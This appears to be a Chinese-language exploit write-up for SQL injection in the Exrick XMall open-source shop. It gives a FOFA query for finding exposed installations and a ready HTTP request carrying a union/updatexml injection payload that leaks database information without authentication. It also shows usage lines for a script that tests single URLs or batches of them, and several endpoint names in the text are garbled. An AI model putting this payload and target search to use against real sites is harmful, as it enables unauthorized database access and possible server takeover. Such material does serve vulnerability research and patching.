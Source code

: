 # Exrick XMall 开源商城 SQL注入漏洞

### 1.漏洞描述

XMal 开源商城 itemlist./itemvistSearch,/svslog,lorderlist,/memmberlist、/meberlistremove等多处接口存在SQL注入漏洞，未经身份验证的攻击者可以利用 SQL注入漏洞获取数据库中的信息(例如，管理员后台密码、站点的用户个人信息)之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 2.fofa语法

```
app="XMall-后台管理系统"
```

### 3.漏洞复现

```
GET /item/list?draw=1&order%5B0%5D%5Bcolumn%5D=1&order%5B0%5D%5Bdir%5D=desc)a+union+select+updatexml(1,concat(0x7e,user(),0x7e),1)%23;&start=0&length=1&search%5Bvalue%5D=&search%5Bregex%5D=false&cid=-1&_=1679041197136 HTTP/1.1
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719830143304-395af136-6b1e-45b1-9ac8-884d6a1c3e38.png)

### 4.py脚本使用

```
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```

